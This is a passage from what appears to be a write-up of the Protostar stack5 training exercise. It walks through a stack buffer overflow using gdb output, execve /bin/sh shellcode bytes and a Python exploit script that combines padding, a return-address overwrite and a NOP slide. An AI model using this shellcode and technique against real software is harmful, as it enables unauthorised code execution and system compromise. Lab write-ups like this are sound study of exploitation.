 The output of this script will be redirected into a file, which can be used as the input for `gdb`. Let's run the program again!

``` shell
(gdb) r < /tmp/exp   <---------- Input
Starting program: /opt/protostar/bin/stack5 < /tmp/exp
0x80483da <main+22>:    ret
0xbffff7ac:     0x54545454      0x55555555      0x56565656      0x57575757
0xbffff7bc:     0x58585858      0x59595959      0x5a5a5a5a      0xb7ffef00

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5353535b
) at stack5/stack5.c:11
11      in stack5/stack5.c
```

The address `0xb7eadc76` has been overwritten with `0x54545454`, where **0x54** corresponds character 'T'. So, our padding starts from 'A' to 'S'. 

We know that **0x54545454** is the address that we can overwrite to redirect our program. But where should our program jump to? Probably the ***"STACK"***, and I chose `0xbffff7b0` as the jump target.

To make sure my shellcode is working, I will add some **NOPs** before the shellcode and **\xcc (int3)** for debugging. Here is the <a href="https://shell-storm.org/shellcode/files/shellcode-575.html" target="_blank">link to shellcode</a> I'm using:

``` shell
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

Here’s the updated script:

``` python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack("I", 0xbffff7b0 + 0x30)
nopslide = "\x90"*100
int3 = "\xCC"*4
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

print padding + eip + nopslide + int3 + shellcode
```

And it works successfully in `gdb`!

``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack5
.....
(gdb) r < /tmp/exp
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/exp
0x80483da <main+22>:    ret
0xbffff7ac:     0xbffff7e0      0x90909090      0x90909090      0x90909090
0xbffff7bc:     0x90909090      0x90909090      0x90909090      0x90909090

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5353535b
) at stack5/stack5.c:11
11      in stack5/stack5.c
(gdb) si
Cannot access memory at address 0x53535357
(gdb)
0xbffff7e1:     nop
0xbffff7b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7e1 in ?? ()
.....
(gdb)
```